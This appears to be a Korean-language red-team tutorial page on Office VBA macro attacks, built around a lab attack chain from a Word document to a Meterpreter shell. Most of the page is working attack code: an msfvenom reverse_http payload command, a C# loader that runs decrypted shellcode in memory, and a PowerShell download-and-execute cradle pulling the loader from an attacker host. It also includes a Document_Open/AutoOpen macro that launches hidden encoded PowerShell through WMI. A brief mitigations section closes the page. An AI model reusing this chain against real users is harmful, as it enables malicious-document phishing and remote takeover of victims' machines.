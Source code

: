 # 오피스 VBA 매크로

비쥬얼 베이직 어플리케이션 (VBA) 매크로는 마이크로소프트 오피스 제품들의 자동화를 도와주는 비쥬얼 베이직 6.0 기반의 프로그래밍 언어다. 보안적으로는 90년대부터 피싱 공격 첨부파일안의 악성코드를 실행하는데 많이 사용됐다.&#x20;

2022년 기준 오피스 VBA 매크로를 사용한 초기 침투 및 피싱 공격은 성공하기 매우 어려워졌다. 마이크로소프트는 2022년 2월에 모든 오피스 제품들과 오피스365에서[ 기본적으로 매크로를 비활성화 하도록 패치](https://docs.microsoft.com/en-us/deployoffice/security/internet-macros-blocked)했다. - 2022/07/07 업데이트 - 라고 생각했는데 7월 7일 이 패치를 롤백했다 ([https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/](https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/)). 따라서 VBA 매크로는 여전히 기본적으로 활성화 되어 있는 상태다. 레드팀들이나 공격자들이 매우 환영할만한 롤백이다(...).&#x20;

이제는 잘 쓰이지 않게 된 TTP지만 거의 30년 동안 공격자들이 사용했던 역사적인 가치가 있는 공격 기법이기 때문에 기초를 닦는다는 마음가짐으로 이 페이지에서 정리한다.&#x20;

### AutoOpen, Document\_Open&#x20;

오피스 제품들에서 실행되는 VBA 매크로 중 AutoOpen() 과 Document\_Open() 함수는 파일을 열자마자 자동적으로 실행되는 함수다. 이를 막는 MotW (Mark of the Web), Protected Views, 그리고 Enable Content 등의 방어 기법들이 있어 요새는 문서를 연다고 해서 VBA 매크로가 자동적으로 실행되지는 않는다. 그러나 피해자 유저가 방어 기법들을 모두 비활성화 하거나 허용할 시 위에서 언급된 함수들이 실행된다.&#x20;

### 실습&#x20;

이번 실습에서는 다음과 같은 공격 체인을 만들어본다:&#x20;

* 워드 프로세스 -> VBA 매크로 -> WMI -> 파워쉘 -> C# .NET 로더 -> Meterpreter&#x20;

중간에 VBA 매크로에서 WMI를 사용하는 것은 쉘이 워드 프로세스 파일이 아닌 `WmiPrvSE.exe` 파일의 자식 프로세스로 생성되기 때문이다. 이 경우 피해자 유저가 워드 문서 파일을 닫아도 쉘은 살아있게 된다.&#x20;

1. 먼저 Meterpreter 쉘코드를 `msfvenom` 을 이용해 만든다.&#x20;

```
msfvenom -p windows/x64/meterpreter/reverse_http lhost=192.168.40.182 lport=443 --encrypt aes256 --encrypt-key 'qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT' --encrypt-iv '?aEe(fG+KbPe23fz' -f csharp
```

2\. 이 Meterpreter 쉘을 로드해 실행할 C# .NET 로더를 만든다. 슬리버 C2의 스테이저 코드를 수정한 뒤 사용했다.&#x20;

<details>

<summary>MeterStager.cs</summary>

```csharp
using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace MeterStager
{
    public class Stager
    {
        private static string aesKey = "qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT";
        private static string aesIV = "?aEe(fG+KbPe23fz";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            byte[] shellcode = new byte[720] {
            	
            < ... Meterpreter 쉘코드 ... >  

            };


            shellcode = Decrypt(shellcode, aesKey, aesIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)0xfff0000, 0x3000, 0x40);
            //Console.WriteLine("[+] addr: {0}", addr.ToInt64().ToString("x2"));
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            //Console.WriteLine("[+] shellcode length: {0}", shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```

</details>

3\. 이후 이 MeterStager.cs C# .NET 로더는 파워쉘에 로드되어 실행된다. 공격자의 다른 서버 `192.168.40.179` 의 포트 9999에서 파일을 받아온 뒤, Reflection을 이용해 로드한 뒤, 메인 EntryPoint를 실행하도록 파워쉘 페이로드를 준비한다. &#x20;

```
iex([System.Reflection.Assembly]::Load((New-Object net.webclient).DownloadData('http://192.168.40.179:9999/MeterStager.exe'))).EntryPoint.Invoke($null, [Object[]]@(@(,([String[]]@()))))
```

위 파워쉘 페이로드를 VBA 매크로에 들어가도록 유틸 스크립트를 이용해 base64 인코딩 한다.&#x20;

<details>

<summary>Invoke-VBAps.ps1</summary>

```powershell
$s = @'
 < your powershell payload here > 
'@
 
<# Just copy/paste everything below! #>
$EncodedText =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($s))  

$array = @()
[System.Collections.ArrayList]$ArrayList = $array
$EncodedText -split '(.{300})' | Where-Object {
    $ArrayList.Add($_) | out-null
}

foreach ($item in $ArrayList){
    if([string]::IsNullOrEmpty($item)){
        continue
    }
    else{
        if($item -eq $ArrayList[-1]){
            '"' + $item +'"' 
            break 
        }
        '"' + $item + '" & _'
    }
}
```



</details>

4\. 이제 완성된 파워쉘 페이로드를 VBA 매크로에다가 집어넣은 뒤, 문서를 생성하면 된다.&#x20;

<details>

<summary>go.vba</summary>

```vba
Sub Document_Open()
    test
End Sub

Sub AutoOpen()
    test
End Sub

Function test()
    Const HIDDEN_WINDOW = 12

    strComputer = "."
    Set objWMIService = GetObject("winmgmts:" _
        & "{impersonationLevel=impersonate}!\\" & strComputer & "\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")

    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    
    Dim proc As Object
    Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    Dim str As String
    
    str = "powershell -exec bypass -nologo -nop -w hidden -enc " & _
    "aQBlAHgAKABbAFMAeQBzAHQAZQBtAC4AUgBlAGYAbABlAGMAdABpAG8AbgAuAEEAcwBzAGUAbQBiAGwAeQBdADoAOgBMAG8AYQBkACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAMAAuADEANwA5ADoAOQA5ADkAOQAvAFMAbABpAHYAZQBy" & _
    "AFMAdABhAGcAZQByAC4AZQB4AGUAJwApACkAKQAuAEUAbgB0AHIAeQBQAG8AaQBuAHQALgBJAG4AdgBvAGsAZQAoACQAbgB1AGwAbAAsACAAWwBPAGIAagBlAGMAdABbAF0AXQBAACgAQAAoACwAKABbAFMAdAByAGkAbgBnAFsAXQBdAEAAKAApACkAKQApACkA"
    
    errReturn = proc.Create(str, Null, objConfig, intProcessID)
End Function
```

</details>

Chameleon과 VBA script 난독화를 진행할 경우 디펜더 우회는 가능하지만, 모든 공격 PoC가 그렇듯 무기화는 진행하지 않는다.&#x20;

실행하면 다음과 같은 결과가 나온다.&#x20;

![](../../.gitbook/assets/blog-simple-vba.gif)

### 대응 방안&#x20;

* 업데이트된 오피스 제품들이나 오피스365를 사용한다면 기본적으로 악성 VBA 매크로가 비활성화 되어 있다. - 라고 생각했지만 07/07일 마이크로소프트 사가 이를 [롤백](https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/)했다.&#x20;
* 마이크로 오피스 전용 그룹 정책 Administrative Template File 을 다운 받은 뒤, 그룹 정책을 설정한다. 그룹 정책을 설정할 때에는 유저 그룹마다, 호스트 그룹마다 따로 GPO를 설정하는 것이 권장된다.&#x20;
* 예를 들어, VBA 매크로 자체를 비활성화 해버리는 GPO의 경우 회계부서 OU 보다는 IT나 세일즈 유저들이 있는 OU에 링크 하는 것이 바람직할 것이다.&#x20;
* VBA 비활성화 혹은 디지털 서명된 VBA만 사용 - `Computer/User Configuration\Policies\Administrative Templates\Microsoft Office XXXX\Security Settings\Disable VBA Office applications`
* 개인이나 GPO가 필요없는 소규모 네트워크의 경우 엔드 유저가 직접 비활성화 시킬수도 있다.
  * 워드 -> Options -> Trust Center -> Trust Center Settings -> Macro Settings -> VBA 완전 비활성화 혹은 디지털 서명된 VBA 만 허용&#x20;

![](../../.gitbook/assets/endpoint-no-vba.png)

### 레퍼런스&#x20;

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=49030" %}

{% embed url="https://4sysops.com/archives/restricting-or-blocking-office-2016-2019-macros-with-group-policy/" %}
